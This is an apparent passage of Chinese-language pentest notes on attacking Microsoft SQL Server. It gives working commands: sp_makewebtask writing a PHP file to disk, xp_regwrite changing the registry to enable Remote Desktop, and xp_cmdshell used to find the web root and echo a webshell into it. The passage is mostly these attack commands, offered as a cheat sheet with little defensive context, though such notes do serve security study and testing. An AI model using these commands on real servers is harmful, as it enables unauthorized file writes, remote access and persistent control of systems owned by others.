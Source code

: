 ![](media/2019-12-31-11.png)

3、sp_makewebtask(2000版本)

2008版本不可用

```
exec sp_makewebtask 'C:\test1.php',' select ''<?php phpinfo();?>'' ';;--
```

还有一些2008不可用2000可用的，都在这个链接里: https://blog.csdn.net/qq_36374896/article/details/84112242 

4、补充

sqlserver操作注册表

```
exec xp_regwrite
'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\TerminalServer',
'fDenyTSConnections',
'REG_DWord',0
```

5、利用xp_cmdshell写webshell

```
for /r c:\ %i in (xxx*.aspx) do @echo %i     //找到网站中可以找到得文件，在磁盘中查找到其位置
使用echo在网站绝对路径写入webshell               //注意遇到<>需要使用^<和^>转义
```

 https://www.cnblogs.com/backlion/p/6869595.html 

**附SQLServer部分基础操作知识：**
